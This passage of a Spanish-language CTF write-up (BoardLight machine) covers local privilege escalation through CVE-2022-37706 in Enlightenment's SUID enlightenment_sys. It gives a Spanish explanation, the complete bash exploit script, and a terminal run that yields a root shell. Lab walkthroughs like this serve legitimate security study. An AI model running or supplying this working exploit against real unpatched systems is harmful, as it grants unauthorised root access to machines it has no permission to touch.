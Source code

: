     [https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
    
    - En pocas palabras lo que hace este script es mirar si `enlightenment_sys` tiene privilegios `SUID` para luego crear una carpeta temporal en `/tmp/net` para luego crear un archivo llamado `exploit` en `tmp` ,una vez echo esto escribe `/bin/sh` en el archivo `exploit` , le da permisos de ejecución a todos los usuarios y luego `ejecuta la shell` que montará el directorio con las opciones dadas para poder ejecutar el archivo `/tmp/exploit` (que contiene el comando `/bin/sh`), dando acceso a una `shell con privilegios elevados`.
        
        ```python
        #!/bin/bash
        
        echo "CVE-2022-37706"
        echo "[*] Trying to find the vulnerable SUID file..."
        echo "[*] This may take few seconds..."
        
        file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
        if [[ -z ${file} ]]
        then
        	echo "[-] Couldn't find the vulnerable SUID file..."
        	echo "[*] Enlightenment should be installed on your system."
        	exit 1
        fi
        
        echo "[+] Vulnerable SUID binary found!"
        echo "[+] Trying to pop a root shell!"
        mkdir -p /tmp/net
        mkdir -p "/dev/../tmp/;/tmp/exploit"
        
        echo "/bin/sh" > /tmp/exploit
        chmod a+x /tmp/exploit
        echo "[+] Enjoy the root shell :)"
        ${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
        ```
        
    
    Nos descargamos el código y lo copiamos a la máquina víctima, una vez copiado, le damos permisos de ejecución e iniciamos el `exploit`
    
    ```python
    larissa@boardlight:~/Desktop$ chmod +x exploit.sh
    larissa@boardlight:~/Desktop$ ./exploit.sh
    CVE-2022-37706
    [*] Trying to find the vulnerable SUID file...
    [*] This may take few seconds...
    [+] Vulnerable SUID binary found!
    [+] Trying to pop a root shell!
    [+] Enjoy the root shell :)
    mount: /dev/../tmp/: can't find in /etc/fstab.
    # whoami
    root
    ```
    